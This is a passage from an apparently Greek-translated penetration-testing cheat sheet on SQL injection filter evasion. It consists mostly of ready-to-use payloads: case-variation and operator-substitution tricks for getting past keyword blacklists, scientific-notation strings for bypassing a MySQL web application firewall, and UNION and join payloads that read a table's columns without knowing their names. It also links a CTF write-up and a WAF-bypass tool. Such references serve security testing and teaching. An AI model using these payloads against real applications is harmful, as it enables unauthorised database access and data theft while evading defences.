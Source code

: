 Blacklist χρησιμοποιώντας λέξεις-κλειδιά - παράκαμψη χρησιμοποιώντας κεφαλαία/μικρά γράμματα
```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```
Λίστα αποκλεισμού χρησιμοποιώντας λέξεις-κλειδιά χωρίς διάκριση πεζών-κεφαλαίων - παράκαμψη χρησιμοποιώντας έναν ισοδύναμο τελεστή
```
AND   -> && -> %26%26
OR    -> || -> %7C%7C
=     -> LIKE,REGEXP,RLIKE, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())Then(table_name)END) -> group_concat(if(table_schema=database(),table_name,null))
```
### Scientific Notation WAF bypass

Μπορείτε να βρείτε μια πιο λεπτομερή εξήγηση αυτού του κόλπου στο [gosecure blog](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/).\
Βασικά, μπορείτε να χρησιμοποιήσετε την επιστημονική σημειογραφία με απροσδόκητους τρόπους για να παρακάμψετε το WAF:
```
-1' or 1.e(1) or '1'='1
-1' or 1337.1337e1 or '1'='1
' or 1.e('')=
```
### Παράκαμψη Περιορισμού Ονομάτων Στηλών

Πρώτα απ' όλα, παρατηρήστε ότι αν το **αρχικό ερώτημα και ο πίνακας από τον οποίο θέλετε να εξάγετε τη σημαία έχουν τον ίδιο αριθμό στηλών** μπορείτε απλά να κάνετε: `0 UNION SELECT * FROM flag`

Είναι δυνατόν να **έχετε πρόσβαση στην τρίτη στήλη ενός πίνακα χωρίς να χρησιμοποιήσετε το όνομά της** χρησιμοποιώντας ένα ερώτημα όπως το εξής: `SELECT F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;`, οπότε σε μια sqlinjection αυτό θα φαίνεται έτσι:
```bash
# This is an example with 3 columns that will extract the column number 3
-1 UNION SELECT 0, 0, 0, F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;
```
Ή χρησιμοποιώντας ένα **comma bypass**:
```bash
# In this case, it's extracting the third value from a 4 values table and returning 3 values in the "union select"
-1 union select * from (select 1)a join (select 2)b join (select F.3 from (select * from (select 1)q join (select 2)w join (select 3)e join (select 4)r union select * from flag limit 1 offset 5)F)c
```
Αυτό το κόλπο προήλθε από [https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/)

### Εργαλεία προτάσεων παράκαμψης WAF

{% embed url="https://github.com/m4ll0k/Atlas" %}
